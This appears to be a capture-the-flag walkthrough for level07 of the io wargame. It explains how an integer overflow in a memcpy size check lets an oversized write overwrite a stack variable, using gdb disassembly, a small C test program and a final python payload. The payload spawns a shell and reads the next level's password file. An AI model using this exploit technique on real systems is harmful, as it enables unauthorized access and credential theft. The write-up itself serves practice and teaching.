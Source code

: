 The source code for this level is in level07.c

We see that the `count` variable needs to be set to 0x574f4c46 in order for us to win. But there's a check at the beginning that prevents us from just simply passing in a positive number. We need to make the size parameter for memcpy into something that will overflow the `buf[10]` buffer and overwrite the `count` variable. Let's see how far apart they are in memory.
```
evel7@io:/levels$ gdb -q level07
Reading symbols from /levels/level07...done.
(gdb) set disassembly-flavor intel
(gdb) display/10i $eip
(gdb) break main
Breakpoint 1 at 0x804841a
(gdb) run 1 AAAAA
Starting program: /levels/level07 1 AAAAA

Breakpoint 1, 0x0804841a in main ()
1: x/10i $eip
=> 0x804841a <main+6>:   and    esp,0xfffffff0
   0x804841d <main+9>:   mov    eax,0x0
   0x8048422 <main+14>:  sub    esp,eax
   0x8048424 <main+16>:  mov    eax,DWORD PTR [ebp+0xc]
   0x8048427 <main+19>:  add    eax,0x4
   0x804842a <main+22>:  mov    eax,DWORD PTR [eax]
   0x804842c <main+24>:  mov    DWORD PTR [esp],eax
   0x804842f <main+27>:  call   0x8048354 <atoi@plt>
   0x8048434 <main+32>:  mov    DWORD PTR [ebp-0xc],eax
   0x8048437 <main+35>:  cmp    DWORD PTR [ebp-0xc],0x9

...

(gdb) ni
0x08048462 in main ()
1: x/10i $eip
=> 0x8048462 <main+78>:  call   0x8048334 <memcpy@plt>
   0x8048467 <main+83>:  cmp    DWORD PTR [ebp-0xc],0x574f4c46
   0x804846e <main+90>:  jne    0x804849a <main+134>
   0x8048470 <main+92>:  mov    DWORD PTR [esp],0x8048584
   0x8048477 <main+99>:  call   0x8048344 <printf@plt>
   0x804847c <main+104>: mov    DWORD PTR [esp+0x8],0x0
   0x8048484 <main+112>: mov    DWORD PTR [esp+0x4],0x804858a
   0x804848c <main+120>: mov    DWORD PTR [esp],0x804858d
   0x8048493 <main+127>: call   0x8048324 <execl@plt>
   0x8048498 <main+132>: jmp    0x80484a6 <main+146>
(gdb) x/3xw $esp
0xbffffc30:  0xbffffc50  0xbffffe80  0x00000004
(gdb) x/xw $ebp-0xc
0xbffffc8c:  0x00000001
```

After looking at the disassembly, we can see that the `count` variable is at `[ebp-0xc]` and right before we call memcpy, the arguments for destination, source, and size are on the stack in that order. So the buffer `buf[10]` starts at 0xbffffc50 and `count` is at 0xbffffc8c.
```
(gdb) p 0xbffffc8c - 0xbffffc50
$1 = 60
```

So they're 60 bytes apart. We need to write 60 bytes up until `count` and then the next four bytes will overwrite it and we'll win. But we don't know how to accomplish this yet. This basic program will help us understand how we can make this happen. We need to know what the value of `count` is going to be when it's passed into memcpy and this will help us figure it out.
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv) {
    int count = atoi(argv[1]);

    printf("%i\n", count*sizeof(int));
    printf("%x\n", count*sizeof(int));

    return 0;
}

...

level7@io:/tmp/ZZZ$ gcc -o test test.c
level7@io:/tmp/ZZZ$ ./test -1 AAAA
-4
fffffffc
```

Since -4 is below 10, we can pass the first check `count >= 10`. It'll set the size argument for memcpy to be 0xfffffffc, and considering that memcpy treats the size as an unsigned int, that means that we're going to write WAY too much data. We need a smaller number. Let's try to cause an overflow by passing in a huge negative number and seeing what the result is.
```
level7@io:/tmp/ZZZ$ ./test -2147483648 AAAAA
0
0
level7@io:/tmp/ZZZ$ ./test -2147483647 AAAAA
4
4
level7@io:/tmp/ZZZ$ ./test -2147483646 AAAAA
8
8
level7@io:/tmp/ZZZ$ ./test -2147483640 AAAAA
32
20
level7@io:/tmp/ZZZ$ ./test -2147483630 AAAAA
72
48
level7@io:/tmp/ZZZ$ ./test -2147483632 AAAAA
64
40
```

So we see that really large negative numbers wrap back around and give us positive numbers. This will help us satisfy the original check against the `count` variable and allow us to write a controlled amount of data*. So remember we need 64 bytes where the first 60 are junk and the last 4 are "\x46\x4c\x4f\x57".
```
level7@io:/levels$ ./level07 -2147483632 $(python -c 'print "A"*60 + "\x46\x4c\x4f\x57"')
WIN!
sh-4.2$ whoami
level8
sh-4.2$ cat /home/level8/.pass
[Password for level8]
```

(*)If you're wondering why -2147483648 gives us 0 when you run that test program, go back to the walkthrough for level 2 and see if you can figure it out
